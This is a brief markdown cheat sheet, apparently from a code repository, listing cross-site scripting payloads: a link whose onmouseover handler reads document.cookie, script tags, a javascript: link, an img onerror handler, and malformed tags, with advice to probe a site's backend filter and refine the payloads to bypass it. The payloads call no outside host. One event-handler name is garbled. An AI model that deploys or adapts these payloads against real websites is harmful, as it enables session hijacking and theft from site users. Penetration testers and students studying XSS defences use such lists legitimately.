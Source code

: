 # XSS  all script depend on backend.
## so first understand the backend filter and make xss.
\<a onmouseover="alert(document.cookie)"\>xss link\</a\>
<script>alert(1)</script>
<xss onafterscripteceute="alert(1)"><script>1</script>
 
<a href="javascript:alert(1) ">xss</a>
<img src=x onerror='prompt(8)'>
<script ~~~>alert(0%0)</script ~~~>
 # improve the xss for bypass filter
 
